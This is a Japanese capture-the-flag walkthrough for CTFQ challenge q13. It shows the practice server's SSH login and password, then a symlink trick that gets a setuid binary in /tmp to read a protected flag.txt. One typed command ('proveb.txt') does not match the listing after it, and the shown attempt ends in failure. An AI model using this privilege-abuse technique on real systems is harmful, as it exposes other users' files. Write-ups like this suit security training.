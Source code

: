 ## 問題

sshコマンドと、パスワードが教えられる。

```
ssh q13@ctfq.u1tramarine.blue -p 10013
Password: 8zvWx00MakSCQuGq
```

## 解法

SSH接続する。実行環境の都合上、`-o IPQoS=none`をつけている。

```zsh
$ ssh q13@ctfq.u1tramarine.blue -p 10013 -o IPQoS=none
```

接続したら、ファイルを見てみる。

```bash
[q13@545d4e166111 ~]$ ls -al
total 52
dr-xr-xr-x 1 root root  4096 Feb 25  2021 .
drwxr-xr-x 1 root root  4096 Feb 25  2021 ..
-rw-r--r-- 1 q13  q13     18 Jul 21  2020 .bash_logout
-rw-r--r-- 1 q13  q13    141 Jul 21  2020 .bash_profile
-rw-r--r-- 1 q13  q13    543 Feb 25  2021 .bashrc
-r-------- 1 q13a q13a    22 Feb 25  2021 flag.txt
---s--x--x 1 q13a q13a 24144 Feb 25  2021 proverb
-r--r--r-- 1 q13a q13a   755 Feb 25  2021 proverb.txt
```

`flag.txt`というテキストファイルが怪しいが、ownerがq13aとなっていて、開くことができない。

`proverb`は実行することができる。アクセス権についている`s`は、setuid bitと呼ばれるもので、ファイル所有者の権限で実行できる。

```bash
[q13@545d4e166111 ~]$ ./proverb
The wolf knows what the ill beast thinks.
```

`proverb.txt`も見ることが出来る。

```bash
[q13@545d4e166111 ~]$ head proverb.txt
All's well that ends well.
A good beginning makes a good ending.
Many a true word is spoken in jest.
Fear is often greater than the danger.
Go for broke!
Fire is a good servant but a bad master.
The wolf knows what the ill beast thinks.
There is always a next time.
Spare the rod and spoil the child.
The calm before the storm.
```

`proverb`の実行結果が、`proverb.txt`内の文字列と一致しているので、`proverb.txt`を読み込んで表示させていると予想。

Symlink Attackを検討する。どこか、シンボリックリンクを張れそうなところを探すと、`/tmp/`に書き込み権限がある。

```bash
[q13@545d4e166111 ~]$ ll /
total 64
drwxr-xr-x   1 root root 4096 Sep 20 04:26 ./
drwxr-xr-x   1 root root 4096 Sep 20 04:26 ../
-rwxr-xr-x   1 root root    0 Sep 20 04:26 .dockerenv*
lrwxrwxrwx   1 root root    7 Nov  3  2020 bin -> usr/bin/
drwxr-xr-x   5 root root  340 Sep 20 04:26 dev/
drwxr-xr-x   1 root root 4096 Sep 20 04:26 etc/
drwxr-xr-x   1 root root 4096 Feb 25  2021 home/
lrwxrwxrwx   1 root root    7 Nov  3  2020 lib -> usr/lib/
lrwxrwxrwx   1 root root    9 Nov  3  2020 lib64 -> usr/lib64/
drwx------   2 root root 4096 Dec  4  2020 lost+found/
drwxr-xr-x   2 root root 4096 Nov  3  2020 media/
drwxr-xr-x   2 root root 4096 Nov  3  2020 mnt/
drwxr-xr-x   2 root root 4096 Nov  3  2020 opt/
dr-xr-xr-x 231 root root    0 Sep 20 04:26 proc/
dr-xr-x---   2 root root 4096 Dec  4  2020 root/
drwxr-xr-x   1 root root 4096 Sep 20 04:26 run/
lrwxrwxrwx   1 root root    8 Nov  3  2020 sbin -> usr/sbin/
drwxr-xr-x   2 root root 4096 Nov  3  2020 srv/
dr-xr-xr-x  13 root root    0 Sep 20 04:26 sys/
drwxrwxrwt   1 root root 4096 Feb 25  2021 tmp/
drwxr-xr-x   1 root root 4096 Dec  4  2020 usr/
drwxr-xr-x   1 root root 4096 Dec  4  2020 var/
```

シンボリックリンクを張った側のproverbを実行すると、`proverb.txt`を開けないとなるので、やはり当該ファイルを読み込んでいる様子。

```bash
[q13@545d4e166111 ~]$ cd /tmp
[q13@545d4e166111 tmp]$ ln -s /home/q13/proverb ./proverb
[q13@545d4e166111 tmp]$ ./proverb 
Failed to open proverb.txt
```

同様にして、`flag.txt`もファイル名を`proverb.txt`に変更してシンボリックリンクを張る。

```bash
[q13@e1c3f1fe0bfb tmp]$ ln -s ~/flag.txt ./proveb.txt
```

```bash
[q13@e1c3f1fe0bfb tmp]$ ll
total 36
drwxrwxrwt 1 root root 4096 Feb 25  2021 ./
drwxr-xr-x 1 root root 4096 Sep 20 04:42 ../
drwxrwxrwt 2 root root 4096 Dec  4  2020 .ICE-unix/
drwxrwxrwt 2 root root 4096 Dec  4  2020 .Test-unix/
drwxrwxrwt 2 root root 4096 Dec  4  2020 .X11-unix/
drwxrwxrwt 2 root root 4096 Dec  4  2020 .XIM-unix/
drwxrwxrwt 2 root root 4096 Dec  4  2020 .font-unix/
-rwx------ 1 root root  701 Dec  4  2020 ks-script-esd4my7v*
-rwx------ 1 root root  671 Dec  4  2020 ks-script-eusq_sc5*
lrwxrwxrwx 1 q13  q13    17 Sep 20 04:48 proverb -> /home/q13/proverb*
lrwxrwxrwx 1 q13  q13    18 Sep 20 04:48 proverb.txt -> /home/q13/flag.txt
```

`proverb`を実行してみるが、`proverb.txt`を開けないと怒られる。

```bash
[q13@e1c3f1fe0bfb tmp]$ ./proverb 
Failed to open proverb.txt
```